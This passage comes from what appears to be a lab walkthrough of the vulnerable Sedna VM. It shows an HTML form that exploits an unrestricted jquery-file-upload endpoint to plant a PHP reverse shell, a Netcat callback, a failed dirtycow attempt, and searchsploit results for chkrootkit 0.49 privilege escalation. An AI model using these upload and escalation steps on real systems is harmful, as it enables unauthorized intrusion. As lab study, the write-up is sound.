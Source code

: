 ``` 
<body>
<form method="post" action="http://localhost/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
	<input type="file" name="files[]" />
	<input type="submit" value="send" />
</form>
</body>
</html>
```

I created a HTML file with the above code, changing localhost to the Sedna IP. Then I used it to upload a reverse shell:

{% img center /images/pentest/sedna/form.jpg 'upload' 'upload form' %}

Then I went to http://192.168.145.128/files/shell.php and got the shell on my Netcat listener. Back to searching for ways to get root. I also find a possible post-exploitation flag in */etc/passwd*:

``` 
crackmeforpoints:x:1000:1000::/home/crackmeforpoints:
```

Cracking the password for this user might be another flag, but first I need root. Since the exploits I've tried so far didn't work, I decided to go down the [dirtycow](https://www.exploit-db.com/exploits/40839/) route. Unfortunately, that didn't work either, besides crashing the kernel. Well, I did not expect for so many privilege escalation exploits to fail. 

## Getting root

The solution came from something unexpected..and that needed a less targeted enumeration..more like generally looking around the box. Inside /etc, I noticed *chkrootkit* was present. I searched for available exploits and found a privilege escalation one:

``` 
searchsploit chkrootkit
--------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                   |  Path
                                                                                 | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------- ----------------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                             | exploits/linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                     | exploits/linux/local/33899.txt
--------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

The exploit is available for version 0.49, so let's see what version is on the box:

``` 
www-data@Sedna:/etc/chkrootkit$ ./chkrootkit -V
./chkrootkit -V
chkrootkit version 0.49
```
